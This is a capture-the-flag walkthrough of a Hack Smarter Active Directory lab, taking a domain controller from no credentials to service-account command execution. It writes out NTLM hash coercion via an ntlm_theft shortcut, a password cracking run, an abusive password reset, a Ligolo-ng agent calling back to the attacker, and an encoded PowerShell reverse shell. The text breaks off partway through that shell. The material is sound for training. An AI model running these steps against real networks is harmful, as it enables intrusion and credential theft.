In this walkthrough, we will be compromising ShareThePain, a medium-difficulty Active Directory lab from Hack Smarter Labs. The engagement begins with no credentials and only direct access to the internal network. A null SMB session reveals a writable share, and dropping a shortcut with ntlm_theft coerces a domain user's authentication, whose captured hash cracks to our first credentials as `bob.ross`. BloodHound shows `bob.ross` holds `GenericAll` over `alice.wonderland`, so we reset the account's password and log in over WinRM for the user flag. A SQL Server instance bound to the host's loopback never appears in the external scan, and reaching it through a Ligolo-ng tunnel lets us enable `xp_cmdshell` for execution as the SQL Server service account. That account holds `SeImpersonatePrivilege`, which GodPotato turns into SYSTEM on the domain controller.


Created by: [Ryan Yager](https://www.hacksmarter.org/courses/63bc86e1-3ab3-43be-b32e-62a676e6dee7)

Let's get started.

## Objective

You're a penetration tester on the Hack Smarter Red Team. Your mission is to infiltrate and seize control of the client's entire Active Directory environment. This isn't just a test; it's a full-scale assault to expose and exploit every vulnerability.

Initial Access:

For this engagement, you've been granted direct access to the internal network but no credentials.

## Scope

**Target:** `10.1.207.66`

## RustScan

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.1.207.66 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-09-10 18:39:43Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: hack.smarter, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 126
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: hack.smarter, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
|_ssl-date: 2026-09-10T18:40:46+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=DC01.hack.smarter
| Issuer: commonName=DC01.hack.smarter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-09T17:12:38
| Not valid after:  2027-03-11T17:12:38
| MD5:     398f fcf9 a562 584d 0705 c25d 4c5a a073
| SHA-1:   4265 de92 365b 0795 5ca1 d3ec c877 f34a a6a5 8e71
| SHA-256: 879a f995 40a7 45cc fe70 6525 d206 140d 8057 1656 0b71 b93d 7ed0 a300 2bd2 34ea
| rdp-ntlm-info: 
|   Target_Name: HACK
|   NetBIOS_Domain_Name: HACK
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hack.smarter
|   DNS_Computer_Name: DC01.hack.smarter
|   DNS_Tree_Name: hack.smarter
|   Product_Version: 10.0.20348
|_  System_Time: 2026-09-10T18:40:38+00:00
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
47001/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49674/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49678/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49682/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49716/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49729/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49908/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, LDAPS on 636, the global catalog on 3268 and 3269, SMB on 445, RDP on 3389, and WinRM on 5985. The LDAP banner gives us the domain as `hack.smarter`, and the RDP certificate and NTLM info confirm the hostname as `DC01.hack.smarter`. We add both to `/etc/hosts` before continuing.

## SMB Enumeration

With no credentials the cheapest thing to test is anonymous access, so we check a null session and enumerate shares.

```
nxc smb 10.1.207.66 -u '' -p '' --shares
```

```
SMB         10.1.207.66     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hack.smarter) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.207.66     445    DC01             [+] hack.smarter\: 
SMB         10.1.207.66     445    DC01             [*] Enumerated shares
SMB         10.1.207.66     445    DC01             Share           Permissions     Remark
SMB         10.1.207.66     445    DC01             -----           -----------     ------
SMB         10.1.207.66     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.207.66     445    DC01             C$                              Default share
SMB         10.1.207.66     445    DC01             IPC$                            Remote IPC
SMB         10.1.207.66     445    DC01             NETLOGON                        Logon server share 
SMB         10.1.207.66     445    DC01             Share           READ,WRITE      
SMB         10.1.207.66     445    DC01             SYSVOL                          Logon server share 
```



*The null SMB session listing shares, with Share granting READ and WRITE*

The null logon is accepted and hands us READ and WRITE on a non-standard share named `Share`. A share we can write to without credentials is the lead worth following.

## Access as bob.ross

We connect to the share to see what is in it.

```
smbclient //10.1.207.66/Share -U '%'
```

```
smb: \> dir
  .                                   D        0  Thu Sep 10 14:43:36 2026
  ..                                DHS        0  Fri Sep  5 23:46:21 2025

                31292671 blocks of size 4096. 27208552 blocks available
smb: \> 
```

The share is empty, but the write access is the point. We build a shortcut with [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) that forces an outbound SMB connection when the folder is listed. The `-s` flag points it at our host.

```
python3 ntlm_theft.py -g lnk -s 10.200.61.35 -f sharethepain
```

We start Responder on the tunnel interface to catch the incoming authentication.

```
sudo responder -I tun0
```

With Responder listening, we upload the `.lnk` file. When the share lists the directory, Explorer resolves the shortcut over SMB and the hash lands.

```
smb: \> put sharethepain.lnk
putting file sharethepain.lnk as \sharethepain.lnk (8.2 kB/s) (average 8.2 kB/s)
```

```
bob.ross::HACK:053776f4679af919:857F86124D6447B4C0FBDDFE3D2D0496:0101000000000000800E62B63341DD011F0FFA59B5301BF20000000002000800300033003900510001001E00570049004E002D00490058004D003800510050004200410032004900460004003400570049004E002D00490058004D00380051005000420041003200490046002E0030003300390051002E004C004F00430041004C000300140030003300390051002E004C004F00430041004C000500140030003300390051002E004C004F00430041004C0007000800800E62B63341DD010600040002000000080030003000000000000000010000000020000058BE96D733B544798DE7F275BE9DDE1B9729DAEF33AEB525DE75DE42A222AD680A001000000000000000000000000000000000000900220063006900660073002F00310030002E003200300030002E00360031002E00330035000000000000000000
```



*Responder catching the NTLMv2 hash for HACK\bob.ross*

We save the hash to `bob_ross_hash.txt` and crack it with john.

```
john bob_ross_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
137Password123!@# (bob.ross)     
1g 0:00:00:02 DONE (2026-09-10 14:52) 0.3773g/s 5007Kp/s 5007Kc/s 5007KC/s 139157q..13761619040
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```



*john recovering 137Password123!@# from the bob.ross NTLMv2 hash*

Cracked. We validate the credentials and enumerate shares.

```
nxc smb 10.1.207.66 -u 'bob.ross' -p '137Password123!@#' --shares
```

```
SMB         10.1.207.66     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hack.smarter) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.207.66     445    DC01             [+] hack.smarter\bob.ross:137Password123!@# 
SMB         10.1.207.66     445    DC01             [*] Enumerated shares
SMB         10.1.207.66     445    DC01             Share           Permissions     Remark
SMB         10.1.207.66     445    DC01             -----           -----------     ------
SMB         10.1.207.66     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.207.66     445    DC01             C$                              Default share
SMB         10.1.207.66     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.207.66     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.207.66     445    DC01             Share           READ,WRITE      
SMB         10.1.207.66     445    DC01             SYSVOL          READ            Logon server share 
```



*Validating bob.ross credentials with NetExec*

The credentials are valid and give us read access to the default shares.

## BloodHound Enumeration

We collect graph data for BloodHound. We point NetExec at the DC for DNS with `--dns-server` so the collector can resolve the domain records it asks for.

```
nxc ldap 10.1.207.66 -u 'bob.ross' -p '137Password123!@#' --bloodhound --collection All --dns-server 10.1.207.66
```

```
LDAP        10.1.207.66     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hack.smarter) (signing:None) (channel binding:No TLS cert) 
LDAP        10.1.207.66     389    DC01             [+] hack.smarter\bob.ross:137Password123!@# 
LDAP        10.1.207.66     389    DC01             Resolved collection methods: group, trusts, rdp, dcom, session, psremote, objectprops, container, acl, localadmin
LDAP        10.1.207.66     389    DC01             Done in 0M 17S
LDAP        10.1.207.66     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.1.207.66_2026-09-10_150408_bloodhound.zip
```

`bob.ross` holds `GenericAll` over `alice.wonderland`.



*BloodHound GenericAll: bob.ross over alice.wonderland*

`alice.wonderland` also sits in the Remote Management Users group, which gives the account WinRM access we can use once we own it.



*BloodHound showing alice.wonderland membership in Remote Management Users*

## Access as alice.wonderland

`GenericAll` gives us two ways forward: write a Service Principal Name on the account and roast the resulting ticket, or reset the password outright. We try the Targeted Kerberoast first, but the ticket never cracks, so we reset the password instead.

```
net rpc password 'alice.wonderland' '0xB1rdWasHere1337!' -U 'hack.smarter'/'bob.ross'%'137Password123!@#' -S '10.1.207.66'
```

`net rpc password` resets the account over RPC and returns nothing, so we confirm the change with NetExec.

```
nxc smb 10.1.207.66 -u 'alice.wonderland' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.1.207.66     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hack.smarter) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.207.66     445    DC01             [+] hack.smarter\alice.wonderland:0xB1rdWasHere1337! 
SMB         10.1.207.66     445    DC01             [*] Enumerated shares
SMB         10.1.207.66     445    DC01             Share           Permissions     Remark
SMB         10.1.207.66     445    DC01             -----           -----------     ------
SMB         10.1.207.66     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.207.66     445    DC01             C$                              Default share
SMB         10.1.207.66     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.207.66     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.207.66     445    DC01             Share           READ,WRITE      
SMB         10.1.207.66     445    DC01             SYSVOL          READ            Logon server share 
```



*Validating alice.wonderland credentials with NetExec*

The reset holds and the new password authenticates.

## Shell as alice.wonderland (user.txt)

The group membership gets us an interactive session, so we take a shell over WinRM with Evil-WinRM.

```
evil-winrm -i '10.1.207.66' -u 'alice.wonderland' -p '0xB1rdWasHere1337!'
```



*The Evil-WinRM session on DC01 as alice.wonderland with user.txt listed on the desktop*

`user.txt` is on the desktop. Enumerating the host further, we check what it is listening on.

```
netstat -ano | findstr LISTENING | findstr 127.0.0.1
```

```
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       3064
  TCP    127.0.0.1:1433         0.0.0.0:0              LISTENING       4160
  TCP    127.0.0.1:56517        0.0.0.0:0              LISTENING       4160
```



*The loopback listeners on DC01, with SQL Server on 1433 bound to 127.0.0.1 and absent from the external scan*

SQL Server is listening on 1433, bound to `127.0.0.1`. A loopback binding only answers connections that originate on the host itself, which is why the external scan never saw it.

## Shell as NT SERVICE\MSSQL$SQLEXPRESS

We have valid credentials for the instance but no way to reach a loopback-bound port from Kali. [Ligolo-ng](https://github.com/nicocha30/ligolo-ng) presents the target's network as a route on our own machine. The proxy runs on our host, the agent runs on the target and connects back to it, and traffic sent to a dedicated interface is forwarded through that connection and out of the agent. Routing `240.0.0.1` to that interface reaches the agent's own loopback, so we come at the instance from the host itself.

We start the proxy on our host, create the interface, and add the route.

```
sudo ./proxy -selfcert
```

```
ifcreate --name sharethepain
route_add --name sharethepain --route 240.0.0.1/32
```

The agent goes up through the `alice.wonderland` WinRM session, which is the session we already have on the target.

```
upload agent.exe
```

We run the agent and point it back at our Kali host on port 11601, where the proxy is listening.

```
./agent.exe -connect 10.200.61.35:11601 --ignore-cert
```

With the agent connected we select the session and start the tunnel.

```
session
1    # press enter
tunnel_start --tun sharethepain
```



*The Ligolo-ng tunnel running on the sharethepain interface with the 240.0.0.1 route*

With the tunnel up, the instance is reachable at `240.0.0.1`, and we connect as `alice.wonderland` over Windows authentication.

```
impacket-mssqlclient hack.smarter/'alice.wonderland':'0xB1rdWasHere1337!'@240.0.0.1 -windows-auth
```

```
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (HACK\alice.wonderland  dbo@master)> 
```



*impacket-mssqlclient authenticating to SQL Server as alice.wonderland through the tunnel*

We profile the instance for a route to command execution.

```
SELECT @@SERVERNAME AS server_name, SYSTEM_USER AS login, CASE WHEN EXISTS(SELECT 1 FROM sys.configurations WHERE name='xp_cmdshell' AND value_in_use=1) THEN 'ENABLED' ELSE 'DISABLED' END AS xp_cmdshell, CASE WHEN IS_SRVROLEMEMBER('sysadmin')=1 THEN 'YES' ELSE 'NO' END AS sysadmin, CASE WHEN EXISTS(SELECT 1 FROM sys.configurations WHERE name='show advanced options' AND value_in_use=1) THEN 'ENABLED' ELSE 'DISABLED' END AS advanced_options;
```

```
server_name       login                   xp_cmdshell   sysadmin   advanced_options   
---------------   ---------------------   -----------   --------   ----------------   
DC01\SQLEXPRESS   HACK\alice.wonderland   b'ENABLED'    b'YES'     b'ENABLED'
```

We connected as `alice.wonderland`, and the account is a sysadmin on the instance with `xp_cmdshell` already enabled. `xp_cmdshell` runs operating system commands as the account the SQL Server service runs as rather than as the login we connected with, so a command confirms who that is.

```
EXEC xp_cmdshell 'whoami';
```

```
nt service\mssql$sqlexpress
```



*xp_cmdshell returning nt service\mssql$sqlexpress, the SQL Server service account*

Execution lands as `nt service\mssql$sqlexpress`. We check its privileges next.

```
EXEC xp_cmdshell 'whoami /priv';
```

```
Privilege Name                Description                               State      
============================= ========================================= ========   
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeMachineAccountPrivilege     Add workstations to domain                Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```



*The SQL Server service account holding SeImpersonatePrivilege in an enabled state*

The service account holds `SeImpersonatePrivilege`. To weaponize it we want an interactive shell, so we start Penelope and generate a PowerShell #3 (Base64) reverse shell from [revshells.com](https://www.revshells.com/), then run it through `xp_cmdshell`.

```
penelope -p 1337
```

```
EXEC xp_cmdshell 'powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMgAwADAALgA2ADEALgAzADUAIgAsADEAMwAzADcAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1A